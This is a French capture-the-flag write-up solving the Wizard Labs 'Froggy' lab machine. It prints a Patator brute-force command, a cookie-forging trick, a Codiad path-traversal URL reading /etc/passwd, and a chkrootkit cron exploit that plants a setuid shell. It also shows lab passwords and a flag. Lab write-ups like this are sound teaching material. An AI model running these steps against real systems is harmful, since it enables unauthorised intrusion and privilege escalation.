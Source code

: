 ```yaml
---
title: Solution du CTF Froggy de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Froggie jumped all over the stage that day
------------------------------------------

*Froggy* est un CTF basé Linux proposé sur la plateforme *Wizard Labs*.  

Via un buster avec une liste assez large de paths potentiels on trouve différents dossiers mais surtout une zone membre :  

```plain
/images (Status: 301)
/thumbnail (Status: 301)
/server-status (Status: 403)
/grid (Status: 301)
/memberarea (Status: 301)
```

dans cette zone on peut trouver des pages PHP mais elles nécessitent une authentification :  

```plain
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/test.php (Status: 200)
/update.php (Status: 302)
/database (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/forgot.php (Status: 200)
/editor (Status: 301)
/dashboard.php (Status: 302)
/remove.php (Status: 200)
```

Le script *forgot.php* correspond évidemment à un script de récupération de mot de passe. Il est tout de même assez inhabituel puisqu'il ne demande qu'un PIN.  

Partant du principe qu'un PIN est généralement numérique on peut utiliser Patator pour trouver les PIN qui ne sont pas invalides :  

```bash
patator http_fuzz url='http://10.1.1.56/memberarea/forgot.php' method=POST body='forgotpass=Check&secretpin=RANGE0' 0=int:0-10000 -x ignore:fgrep='Sercet pin not matched'
```

NB: la typo fait partie du challenge.  

Avec un PIN de 0 on obtient un message différent : *Please enter your secret pin to view your password.*  

Hmmm étrange mais pas vraiment utile :-/   

Puisque le site le permet j'ai créé un compte dans cette zone membre et une fois connecté on peut clairement voir un cookie nommé *membersession* qui contient le base64 correspondant au compte que je viens de créer (*devloop*).  

Il suffit d'éditer le cookie pour y mettre le base64 de *admin* puis on retourne sur le dashboard qui nous livre ses secrets :  

> Welcome admin  
> 
>   
> 
> Your Notes : Need to beautify our gallery using '83VbbDGjefTnM9wQ' as Password

Codiadwnage
-----------

Où utiliser ces identifiants ?  

Toujours sous */memberarea* on trouve un dossier nommé *editor* qui est un IDE web baptisé [Codiad](http://codiad.com/).  

Pas grand chose d'intéressant à y voir une fois connecté, toutefois ce soft semble vulnérable :  

```plain
$ searchsploit codiad
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities  | exploits/php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion      | exploits/php/webapps/36371.txt
----------------------------------------- ----------------------------------------
Shellcodes: No Result
```

La faille d'inclusion locale est très facile à exploiter :  

```plain
http://10.1.1.56/memberarea/editor/components/filemanager/download.php?path=../../../../../../../../../../../etc/passwd&type=undefined
```

On note la présence de deux utilisateurs :  

```plain
sysadm:x:1001:1001:,,,:/home/sysadm:/bin/bash
ahmed:x:1002:1002:,,,:/home/ahmed:/bin/bash
```

La clé privée SSH de *ahmed* est récupérable et nous permet d'obtenir notre shell ainsi que le premier flag :)  

On reçoit aussi une notification de réception d'un email :  

```plain
You have mail.
Last login: Sat Feb 23 10:27:50 2019 from 192.168.0.30
ahmed@froggy:~$ mail
-bash: mail: command not found
ahmed@froggy:~$ ls /var/spool/mail
ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed
/var/spool/mail/ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed  -lh
-rwx------ 1 ahmed ahmed 367 Feb 22 14:56 /var/spool/mail/ahmed
ahmed@froggy:~$ cat /var/spool/mail/ahmed
From: SysAdmin <sysadm@localhost.localdomain>
To: Ahmed <ahmed@localhost.localdomain>
Subject: Vulnerable Program

Dear Ahmed !

While I was visiting some hacker websites I discovered an "public exploit " for our anti-rootkit utility ...

It's surely disappointing for us but I did my best to make the exploit unusable for any attacker .

Your Lovely SysAdmin  !!
```

Cuisses de grenouilles
----------------------

Au début je me suis dirigé vers l'idée d'un script custom à exploiter, j'ai donc fouillé un droite à gauche.  

L'utilisateur *sysadm* ne dispose d'aucun fichier vraiment intéressant.  

Après avoir récupéré les identifiants SQL j'ai trouvé le mot de passe admin de la zone membre ainsi que les PINs, ce qui explique le message de tout à l'heure.  

```plain
$ mysql -u membership -p member
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50060
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [member]> show tables;
+------------------+
| Tables_in_member |
+------------------+
| pdo              |
+------------------+
1 row in set (0.00 sec)

MariaDB [member]> select * from pdo;
+----+----------+----------+------------------+-----------+
| id | fullname | username | password         | secretpin |
+----+----------+----------+------------------+-----------+
|  1 | admin    | admin    | Gw-LfcrjC-4hr6>g |         0 |
|  2 | test     | test     | test             |         0 |
|  3 | devloop  | devloop  | devloop          |    123456 |
+----+----------+----------+------------------+-----------+
3 rows in set (0.26 sec)
```

Je suis alors parti sur l'idée que *chkrootkit* soit exécuté via un *crontab* puisque je savais qu'une faille existait pour ce logiciel (forcément ça en a fait rigoler quelques uns).  

Le binaire est bien présent sur le système mais est-il exécuté ? J'ai eu recours une nouvelle fois à mon script de surveillance des process ([voir CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub)) :  

```bash
23961 root /usr/sbin/CRON -f
23962 root /bin/sh -c    chkrootkit
23963 root /bin/sh /usr/bin/chkrootkit
24205 root /bin/echo -n Checking `inetd'...
24466 root grep -E check_global_passwd|panasonic|satori|vejeta|\.ark|/hash\.zk
24492 root /bin/ps auwx
24493 root grep -E xinetd
24494 root grep -E -v grep
24589 root /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
24610 root find /lib /usr/lib /usr/local/lib -name libproc.a
24643 root /usr/bin/find /usr/lib /lib -name .[A-Za-z]* -o -name ...* -o -name .. *
24654 root /usr/bin/find /usr/lib /lib -type d -name .*
24695 root /usr/bin/find /usr/lib -name last.cgi
24708 root /usr/bin/find /usr/lib /usr/bin -name red.tar -o -name start.sh -o -name klogd.o -o -name 0anacron-bak -o -name adore
24777 root /bin/sh /usr/bin/chkrootkit
24778 root /usr/bin/strings /sbin/init
24779 root grep -E HOME
24856 root /bin/sh /usr/bin/chkrootkit
24857 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
24858 root grep -E #!.*php
25025 root /bin/sh /usr/bin/chkrootkit
25026 root find /proc
25027 root wc -l
```

L'exploit présent [sur exploit-db](https://www.exploit-db.com/exploits/33899) indique que chkrootkit va exécuter les scripts présents dans la variable *SLAPPER\_FILES*.  

L'exploit donnait un exemple avec le script */tmp/update* donc au début je ne suis pas allé plus loin mais voyant que rien ne s'exécutait j'ai regardé le code (chkrootkit est écrit en bash) et la liste variable était différente :  

```bash
SLAPPER_FILES="${ROOTDIR}dev/shm/slapper"
```

J'ai donc écrit un script bash à cet emplacement :  

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Cette fois notre script est bien exécuté:  

```bash
2890 root /bin/sh /usr/bin/chkrootkit
2891 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
2892 root grep -E #!.*php
2937 root /bin/netstat -an
2938 root grep -E ^tcp.*LIST|^udp
2939 root grep -E [.:]145[^0-9.:]
--- snip ---
3041 root /bin/netstat -an
3042 root grep -E ^tcp.*LIST|^udp
3043 root grep -E [.:]47889[^0-9.:]
3062 root /bin/sh /usr/bin/chkrootkit
3063 root find /proc
3064 root wc -l
3130 root /bin/bash /dev/shm/slapper
3131 root [cp]
3133 root [chmod]
```

```plain
$ ./devloop_was_here
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
5bbfc6a26697caaaa66b1eefb8d3a1a0699ab51c
```


*Published May 21 2019 at 18:09*

